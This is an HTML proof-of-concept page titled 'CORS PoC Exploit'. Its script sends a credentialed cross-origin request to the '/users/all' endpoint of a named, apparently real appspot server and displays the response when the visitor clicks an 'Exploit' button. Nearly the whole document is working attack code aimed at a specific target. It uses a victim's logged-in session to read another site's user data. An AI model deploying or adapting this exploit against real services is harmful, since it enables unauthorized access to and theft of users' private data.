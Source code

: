 <html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://canvas-server-dot-filedriver-291811.uc.r.appspot.com/users/all", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      <h3>Show full content of page</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>
